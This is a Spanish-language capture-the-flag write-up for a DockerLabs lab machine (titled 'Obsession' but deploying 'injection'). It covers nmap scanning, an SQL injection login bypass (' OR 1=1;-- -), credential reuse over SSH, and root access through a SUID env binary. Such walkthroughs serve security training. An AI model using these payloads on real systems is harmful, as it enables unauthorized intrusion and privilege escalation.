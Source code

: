# 🖥️ Writeup - Obsession

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip injection.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh injection.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-11 16:34 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Entramos en el puerto `80` y nos encontramos con un panel de inicio de sesión.

Dado que la máquina se llama `injection`, probamos manualmente algunos de los comandos de `SQLi` más comunes.

![alt text](../images/sqli.png)

Funciona a la primera, inyectando el comando `' OR 1=1;-- -` en el campo de usuario y poniendo una contraseña aleatoria.

Una vez dentro, aparece el siguiente mensaje:

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Hemos encontrado credenciales para un usuario `dylan` : `KJSDFG789FGSDF78`.

Accedemos por `SSH` con estas credenciales.

```bash
ssh dylan@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash
find / -perm -4000 -type f 2>/dev/null 
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Comprobamos que podemos ejecutar el binario `env` con privilegios `SUID`, lo cual explotamos de la siguiente manera:

```bash
/usr/bin/env /bin/sh -p
```

Info:
```
# whoami
root
#
```

Ya somos root!
